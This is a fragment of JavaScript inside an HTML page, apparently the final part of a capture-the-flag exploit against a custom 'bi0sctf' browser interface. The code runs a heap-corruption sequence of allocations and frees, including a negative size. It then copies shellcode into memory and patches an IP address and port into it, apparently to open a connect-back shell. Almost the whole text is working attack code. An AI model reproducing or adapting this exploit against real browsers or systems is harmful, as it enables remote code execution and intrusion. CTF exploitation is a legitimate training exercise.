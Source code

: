 ```
  arr[i] = 0;
}
arr[0x18] = 1;
arr[0x19] = 1;
arr[0x20] = 9;
arr[0x22] = 0x41;
arr[0x23] = 0x41;

var ret = bi0sctf.secure_talloc(key, 0x28, arr);
bi0sctf.secure_talloc(key, 0x10, arr);
bi0sctf.secure_tree(key, ret + 0x20);
bi0sctf.secure_tree(key, ret);

arr[0x18] = 0;

bi0sctf.secure_talloc(key, 0x28, arr);
bi0sctf.secure_talloc(key, -23, arr);

var sharr = new Uint8Array(shellcode.length);
for (var i = 0; i < shellcode.length; i++) {
  sharr[i] = shellcode[i];
}
// substitute IP
sharr[0x29] = 192;
sharr[0x2a] = 168;
sharr[0x2b] = 1;
sharr[0x2c] = 1;

// substitute port
sharr[0x32] = 0x00;
sharr[0x33] = 80;

arr[0x20] = 8;

bi0sctf.secure_tree(key, ret);
bi0sctf.secure_talloc(key, 0x28, arr);

var smarr = new Uint8Array(8);
for (var i = 0; i < 8; i++) {
  smarr[i] = 0;
}
smarr[0] = 8;
smarr[2] = 0x41;
smarr[3] = 0x41;

bi0sctf.secure_talloc(key, 0xf0, smarr);
bi0sctf.secure_talloc(key, 0xf0, sharr);

bi0sctf.secure_tree(key, ret - 0x18);
bi0sctf.secure_talloc(key, 0x160, smarr);

bi0sctf.secure_talloc(key, 0x10, smarr);
</script>
</Body>
</html>
```

